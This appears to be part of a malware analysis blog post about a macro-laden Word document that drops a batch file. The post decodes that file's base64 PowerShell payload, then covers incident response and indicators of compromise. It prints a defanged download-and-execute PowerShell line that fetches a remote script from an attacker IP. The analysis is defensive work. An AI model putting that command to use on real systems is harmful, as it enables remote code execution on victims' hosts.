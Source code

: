 This is the command being written to the d.bat file. The powershell command takes in an encoded input, which can be easily decoded from base64 to String.

Decoded input: `IEX ((new-object net.webclient).downloadstring('hxxp://13[.]36[.]211[.]176/rs.txt'))`

I've defanged the input, but IEX instructs Powershell to execute an expression. The expression itself is not present in this Macro. Instead, it is downloaded from the file rs.txt in the remote server 13[.]36[.]211[.]176. Unfortunately, the server is no longer active and we are unable to access this file. 

Without the file rs.txt, we cannot further proceed in the analysis. But we can deduce that rs.txt contained some PowerShell commands that would have been downloaded as String and executed by the Macro. Based on experience, the powershell commands most likely involded downloading another malicious file and executing it on the host. 

This would be in line with the purpose of such maldocs, to act as a dropper for malware.  

# Summary

The provided docx file "*curriculum_BAT.docm*" contains a Macro that is intended to download and execute commands from a remote file. We were unable to acquire the remote commands as they no longer exist on the remote server. Based on conjecture, we can assume that it was intended to download other malicious files onto the host. 


## Incident Response

I'd like to briefly talk about how the above analysis benefits an organization. Malware analysts are a valuable resource and not every organization can afford to employ them full time. But having access to them provides valuable data for the Incident Responders in the organization. 

For example, in this case, Incident Response (IR) team are armed with the information that any http traffic to the URI 13[.]36[.]211[.]176/rs.txt is malicious. This allows the IR team to fan out and search their network logs for any host that contacted the above URI. The IR team also knows that from a quick search on PassiveTotal that the ip address was first seen on 2021-01-01 and last seen on 2021-05-15. This provides a time frame for performing log dives. 

If the organization has a mature security posture, they would be logging all Powershell comamnds being executed on their hosts. Based on above time frame, and potential list of affected hosts, IR team can perform log dives by pulling various forensic artificats (Windows Event logs for Powershell is a topic for a separate blog post). This will not only provide confirmation of compromise, but might also yield the PowerShell command(s) we were unable to obtain from the remote server. 

This is tangential to Malware Analysis but pertinent to the overall Incident Response plan. Take a look at one of my favorite articles on configuring Powershell Logs from [FireEye](https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html) and an article on the [event ids](https://nsfocusglobal.com/Attack-and-Defense-Around-PowerShell-Event-Logging) to focus on during log diving.


# IoCs

## Files
* curriculum_BAT.docm - a5277556ccea7ca5a0a224a253b9c3b6054c080c71b19965357ae12525276942
* `%TEMP%\d.bat' - 073932967E7573DFF2654C160601ECD5C6BC5C79D939096C5A2FB74F136889EC
